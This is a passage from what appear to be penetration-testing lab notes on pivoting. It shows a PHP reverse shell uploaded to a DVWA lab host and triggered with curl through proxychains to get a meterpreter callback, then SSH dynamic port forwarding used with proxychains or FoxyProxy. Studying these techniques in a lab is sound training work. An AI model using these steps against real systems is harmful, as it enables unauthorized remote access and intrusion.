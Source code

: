 Upload the reverse shell.

![[02 - PHP File Upload.png]]

Edit the Proxychains configuration.

```
$ cat /etc/proxychains4.conf
..[snip]..
socks5  127.0.0.1 1080
```

Then execute the reverse shell.

```
$ proxychains curl -X GET http://192.168.56.106/dvwa/hackable/uploads/rsh.php
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.106:80  ...  OK

$ curl --socks5 127.0.0.1:1080 -X GET http://192.168.56.106/dvwa/hackable/uploads/rsh.php
```

We have established a meterpreter reverse shell.

![[03 - MSF Reverse Callback Shell.png]]

### 1.3 - Dynamic Port Forwarding

#### 1.3.1 - Usage

```
$ cat /etc/ssh/sshd_config
..[snip]..
AllowTcpForwarding yes
..[snip]..
```

`$ ssh <username>@<pivot_IP> -D1080`

- Method 1: `proxychains`

```
$ cat /etc/proxychains4.conf
..[snip]..
socks4  127.0.0.1 1080

$ proxychains firefox <target_IP>
```

- Method 2: FoxyProxy

You can use a **FoxyProxy** firefox extension to create a pattern

![[01 - New SOCKS Proxy Configuration.png]]
